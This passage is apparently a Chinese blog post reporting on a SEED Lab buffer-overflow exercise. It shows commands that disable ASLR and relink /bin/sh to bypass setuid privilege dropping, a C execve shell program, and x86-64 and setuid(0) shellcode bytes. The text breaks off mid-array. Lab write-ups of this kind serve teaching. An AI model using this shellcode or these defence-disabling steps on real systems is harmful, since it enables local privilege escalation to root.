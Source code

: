 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      【SEED Lab2.0】缓冲区溢出实验报告 				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-25 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-5.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 缓冲区溢出
    - CTF
    - SEED_Lab
---
```


# 缓冲区溢出实验报告

## stack_overflow(setuid)

## 环境配置

配置环境，关闭ASLR地址随机化，将/bin/sh链接到/bin/zsh（/bin/dash以及/bin/bash都实现了一种安全对策， 防止自己在Set-UID进程中执行。 基本上，如果它们检测到它们是在一个Set-UID进程中执行的， 它们会立即将有效的用户ID更改为该进程的真实用户ID， 基本上会放弃特权  ）

```shell
❯ sudo sysctl -w kernel.randomize_va_space=0 
kernel.randomize_va_space = 0
❯ sudo ln -sf /bin/zsh /bin/sh
```

### Task1： 熟悉shellcode

`shellcode C代码实现`：

```c
#include <stddef.h>
void main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

`shellcode 二进制代码实现`:

```c
/* call_shellcode.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0) 
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
```